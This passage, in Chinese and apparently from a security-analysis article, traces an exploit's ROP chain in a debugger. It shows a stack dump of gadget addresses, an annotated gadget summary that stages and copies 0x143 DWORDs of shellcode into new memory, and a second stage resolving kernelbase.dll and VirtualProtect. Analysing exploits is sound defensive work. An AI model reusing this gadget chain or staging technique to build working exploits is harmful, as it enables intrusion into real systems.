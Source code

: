 在返回地址0x5e861193处设置断点，新分配的内存地址0x1c100000存储在eax中。 接下来的ROP载荷也很有趣：

```
1:020> dd esp
0220ec64 5e861192 c30c4889 5e89a4ca 41414141
0220ec74 5e861192 9090a5f3 5e8e2e45 5e861192
0220ec84 c3084889 5e89a4ca 41414141 5e861192
0220ec94 90909090 5e8e2e45 5e861192 c3044889
0220eca4 5e89a4ca 41414141 5e861192 9090ee87
0220ecb4 5e8e2e45 5e861192 10788d60 5e89a4ca
0220ecc4 070514b8 5e861192 00000143 5e8e2e45
0220ecd4 5eef8947 068e2bf8 5eedecc1 06a50021

```

我已经将其总结如下：

```
pop ecx/retn ; set ecx to 0xc30c4889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090a5f3
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0xc], ecx/ retn ; mov ecx to newly allocated memory (screenshot 9)
pop ecx/retn ; set ecx to 0xc3084889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x90909090
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x8], ecx/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0xc3044889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090ee87
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x4], ecx/retn; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x10788d60
mov dword ptr [eax], ecx/retn ;
pop ecx/retn ; set ecx to 0x143
push eax/retn ; now we are at the shellcode

```

![enter image description here](http://drops.javaweb.org/uploads/images/bd7efd5846200ce6ef813711ef22334adc87a5d5.jpg)

这部分ROP载荷将从主shellcode中拷贝0x143个DWORD到新分配的内存空间中。

![enter image description here](http://drops.javaweb.org/uploads/images/2eff8cf9e11b50343981eba9b7a91915b8ee3540.jpg)

现在就是第二阶段的shellcode了。

![enter image description here](http://drops.javaweb.org/uploads/images/23968737e07d50a950870fa940032af75bd6338f.jpg)

进一步对代码进行跟踪，将看到动态查找kernelbase.dll基址以及计算VirtualProtect函数地址。

![enter image description here](http://drops.javaweb.org/uploads/images/beb07c4ce034223e884b43ce1db8a1a1a918258f.jpg)
